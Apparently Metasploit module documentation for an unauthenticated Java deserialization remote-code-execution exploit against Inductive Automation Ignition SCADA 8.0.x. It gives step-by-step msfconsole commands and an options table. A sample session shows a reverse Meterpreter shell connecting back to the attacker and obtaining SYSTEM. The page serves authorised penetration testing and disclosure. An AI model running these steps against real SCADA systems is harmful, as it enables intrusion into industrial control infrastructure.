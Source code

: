 ## Vulnerable Application
This module exploits a Java deserialization vulnerability in the Inductive Automation Ignition SCADA product,
versions 8.0.0 to (and including) 8.0.7.
This exploit was tested on versions 8.0.0 and 8.0.7 on both Linux and Windows.
The default configuration is exploitable by an unauthenticated attacker, which can achieve remote code execution as
SYSTEM on a Windows installation and root on Linux.
The vulnerability was discovered and exploited at Pwn2Own Miami 2020 by the Flashback team (Pedro Ribeiro +
Radek Domanski).

Vulnerable versions can be downloaded from here: https://inductiveautomation.com/downloads/archive/8.0.7
We have confirmed versions 8.0.0 to 8.0.7 are vulnerable. Once installed, the application must be configured through the
web interface on port 8088 before it is vulnerable.

## Verification Steps

1. Install application
2. Start msfconsole
3. Do: `use exploit/multi/scada/inductive_ignition_rce`
4. Do: `set rhost <TARGET_IP>`
5. Do: `set lhost <YOUR_IP>`
6. Do: `run`
7. You will get a SYSTEM or root shell

## Options

```
Module options (exploit/multi/scada/inductive_ignition_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    8088             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Windows
   2   Linux
```

## Scenarios
```
msf5 exploit(multi/scada/inductive_ignition_rce) > set rhost 10.10.10.204
rhost => 10.10.10.204
msf5 exploit(multi/scada/inductive_ignition_rce) > set lhost 10.10.10.1
lhost => 10.10.10.1
msf5 exploit(multi/scada/inductive_ignition_rce) > check

[*] 10.10.10.204:8088 - Detected version 8.0.7
[*] 10.10.10.204:8088 - The target appears to be vulnerable.
msf5 exploit(multi/scada/inductive_ignition_rce) > run

[*] Started reverse TCP handler on 10.10.10.1:4444
[*] 10.10.10.204:8088 - Attacking Windows target
[*] 10.10.10.204:8088 - Detected version 8.0.7
[*] 10.10.10.204:8088 - Sending payload...
[+] 10.10.10.204:8088 - Success, shell incoming!
[*] Sending stage (180291 bytes) to 10.10.10.204
[*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.204:49186) at 2020-06-12 11:16:54 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 784 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\Inductive Automation\Ignition>whoami
whoami
nt authority\system

C:\Program Files\Inductive Automation\Ignition>
```

